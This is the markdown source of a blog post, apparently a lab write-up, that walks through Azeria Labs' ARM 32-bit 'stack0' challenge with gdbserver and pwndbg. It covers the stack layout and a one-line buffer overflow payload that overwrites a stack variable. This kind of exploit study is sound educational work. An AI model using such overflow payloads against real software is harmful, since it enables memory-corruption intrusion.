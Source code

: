 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part I"
---
```


This is the first of a serie of posts about exploiting 32 bits Arm
binaries.

These [challenges](https://github.com/azeria-labs/ARM-challenges) were
[taken](https://azeria-labs.com/part-3-stack-overflow-challenges/)
from [Azeria Labs](https://azeria-labs.com).<!--more-->

## Setup

Let's [spin a Rasbian](/book-of-gehn/articles/2020/12/15/Qemulating-Rasbian-ARM.html)
first. Make your to forward a port for the `ssh` and another for the
`gdbserver` so we can connect to them from the host machine.

There are [7 binaries](https://github.com/azeria-labs/ARM-challenges)
compiled for ARM for 32 bits, not stripped and dynamically linked.

We will focus on `stack0` for now.

```shell
$ file stack0
stack0: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV),
dynamically linked, interpreter /lib/ld-linux-armhf.so.3,
for GNU/Linux 2.6.32, BuildID[sha1]=1171fa6db1d5176af44d6d462427f8d244bd82c8,
not stripped
```

Spin the `gdbserver`:

```shell
pi@raspberrypi:~$ gdbserver :9999 stack0
Process /home/pi/stack0 created; pid = 410
Listening on port 9999
```

And now, from the host, connect your `gdb` to the server. In my case I
will use [pwndbg](https://github.com/pwndbg/pwndbg), an enhanced version
of `gdb`.

```shell
$ gdb-multiarch -q -x ~/scripts/pwndbg.gdbinit
pwndbg> target extended-remote 9999
Remote debugging using <...>
Reading /home/pi/stack0 from remote target...
```

In addition to the debugger, I will use an
[interactive assembler](https://github.com/bad-address/iasm) to play
with some Arm code that I may not understand but which I don't want to
run in the debugger
(see [my post about `iasm`](/book-of-gehn/articles/2021/01/09/Interactive-Assembler.html)).

## Stack initialization

The stack initialization of `main` is as follows:

```nasm
pwndbg> pdisass &main
 ► 0x1044c <main>       push   {fp, lr}
   0x10450 <main+4>     add    fp, sp, #4
   0x10454 <main+8>     sub    sp, sp, #0x50
   0x10458 <main+12>    str    r0, [fp, #-0x50]
   0x1045c <main+16>    str    r1, [fp, #-0x54]
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
   0x10468 <main+28>    sub    r3, fp, #0x48
   0x1046c <main+32>    mov    r0, r3
   0x10470 <main+36>    bl     #gets@plt <gets@plt>
```

The `lr` and the `fp` are pushed in that order (0x8 bytes),
the `fp` is updated and points to the pushed `lr` (`add fp, sp, #4`)
and then 0x50 bytes are allocated (`sub sp, sp, #0x50`).

The arguments of `main`, registers `r0` and `r1`, are saved on *top* of
the stack (`str r0, [fp, #-0x50]`, `str r1, [fp, #-0x54]`).

And then the cookie is stored:

```nasm
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
```

This is our target.

## Call to `gets`

In the `main` function a call to `gets` is done with a buffer
allocated in the stack:

```nasm
pwndbg> pdisass
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
   0x10468 <main+28>    sub    r3, fp, #0x48
   0x1046c <main+32>    mov    r0, r3
 ► 0x10470 <main+36>    bl     #gets@plt <gets@plt>
        r0: 0xbefffb6c ◂— 0x0
        r1: 0xbefffd04 —▸ 0xbefffe14 ◂— '/home/pi/stack0'
        r2: 0xbefffd0c —▸ 0xbefffe24 ◂— 'SHELL=/bin/bash'
        r3: 0xbefffb6c ◂— 0x0
```

The registers before the call to `gets` were:

```
------  ----  ------  ---------  ------  ---------  ------  ------
    r0  1fb4  r1      eeee:eeee  r2      0          r3      1fb4
    r4  0     r5      0          r6      0          r7      0
    r8  0     r9/sb   0          r10     0          r11/fp  1ffc
r12/ip  0     r13/sp  1fa8       r14/lr  aaaa:aaaa  r15/pc  100:20
------  ----  ------  ---------  ------  ---------  ------  ------
```

And the manually-annotated stack was:

```python
100:20> ;! M[sp:]   # <-- from sp to the end of the mapped page
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
        |   ... 16 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
] <-- base of stack
```

`r3` points *almost* to the begin of the bunch of zeros, just 4
bytes below.

We can verify this writing and inspecting the memory:

```python
100:20> ;! M[r3:] = b"AAAABBBBCCCC"
100:20> ;! M[sp:]
[
        \xee\xee\xee\xee
        \xdd\xdd\xdd\xdd
        \x00\x00\x00\x00    == these are still zeros
buf --> AAAA
        BBBB
        CCCC
        \x00\x00\x00\x00
        ...
]
```

Indeed, the destination buffer of `gets` has 0x48 - 0x8 bytes
(we subtract 4 bytes for the cookie and 4 bytes for the stored `fp`)

```python
100:20> ;! M[sp:]
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
buf ----|-->AAAA
        |   BBBB
        |   CCCC
        |   ... 13 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
]
```

## The target

The program stores a cookie initialized to zero in the stack *before*
the call to `gets` and then it checks its value.

```nasm
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
    ...
   0x10470 <main+36>    bl     #gets@plt <gets@plt>
   0x10474 <main+40>    ldr    r3, [fp, #-8]
   0x10478 <main+44>    cmp    r3, #0
```

If it is still zero jumps to a `puts` that prints `"Try again?"`.

But if an overflow occurs, the cookies will be non-zero and another
`puts` will executed.

This is the print that we are looking for:

```nasm
   0x10480 <main+52>    ldr    r0, [pc, #0x18]
 ► 0x10484 <main+56>    bl     #puts@plt <puts@plt>
```

The address of the string to print is stored in the code segment, 0x18
bytes below the program counter at 0x10480.

However 0x10480 + 0x18 == 0x10498 is not correct:

```nasm
pwndbg> x/4 0x10498
0x10498 <main+76>:  0xe24bd004  0xe8bd8800  0x0001051c  0x00010548
```

почему?

> "When using R15 as the base register you must remember it contains an
> address 8 bytes on from the address of the current instruction."
> <cite class="epigraph">Arm documentation</cite>

So it is 0x10498 + 0x8:

```nasm
pwndbg> x/4 0x104a0
0x104a0 <main+84>:  0x0001051c  0x00010548  0xe92d43f8  0xe1a07000

pwndbg> p (char*)0x0001051c
$21 = 0x1051c "you have changed the 'modified' variable"
```

## The exploit

Writing 0x40+1 bytes we will overflow the buffer overwriting the cookie
in the stack but without corrupting the stack further.

```shell
pi@raspberrypi:~$ echo -n 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' | ./stack0
you have changed the 'modified' variable
```


<!-- stuff -->

<script>
function fix_asm_syntax(ev) {
    // pip install selectq
    //   cond = (val('text()') == 'blt') | (val('text()') == 'b') | (val('text()').startswith('mov')) | ...
    //   div = sQ.select('div', attr('class').contains('language-nasm'))
    //   xpath = div.select('span', cond)

    // Make some instructions "keywords"
    var xpath = ".//div[contains(@class,'language-nasm')]//span[(((text() = 'blt') or (text() = 'b')) or starts-with(text(), 'mov')) or starts-with(text(), 'ldm') or starts-with(text(), 'stm') or starts-with(text(), 'ldr') or starts-with(text(), 'bx') or starts-with(text(), 'bl') or starts-with(text(), 'bne') or starts-with(text(), 'mvn')]";
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.add('k'); // keyword
        el.classList.remove('n'); // noun
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-nasm')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-python')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }
}

document.addEventListener('DOMContentLoaded', fix_asm_syntax);
</script>
